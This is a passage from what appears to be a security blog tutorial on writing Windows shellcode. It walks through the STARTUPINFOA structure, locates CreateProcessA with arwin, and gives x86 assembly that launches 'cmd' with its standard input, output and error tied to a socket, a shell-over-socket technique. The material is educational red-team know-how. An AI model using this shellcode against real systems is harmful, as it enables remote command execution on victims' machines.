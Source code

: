 ``` cpp
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
```

And the `_PROCESS_INFORMATION` is even easier as all the fields can be
NULL:

``` cpp
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
```

Get the address of `CreateProcessA()`:

**arwin finding CreateProcessA().**

``` console
C:\Documents and Settings\Administrator>arwin kernel32 CreateProcessA
arwin - win32 address resolution program - by steve hanna - v.01
CreateProcessA is located at 0x7c80236b in kernel32
```

<cta-banner
  buttontxt="Read more"
  link="/solutions/red-teaming/"
  title="Get started with Fluid Attacks' Red Teaming solution right now"
/>

In Assembler, the call to `CreateProcessA()` will look like this:

**CreateProcessA() in Assembler.**

``` x86asm
mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                        ; injecting null bytes.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
```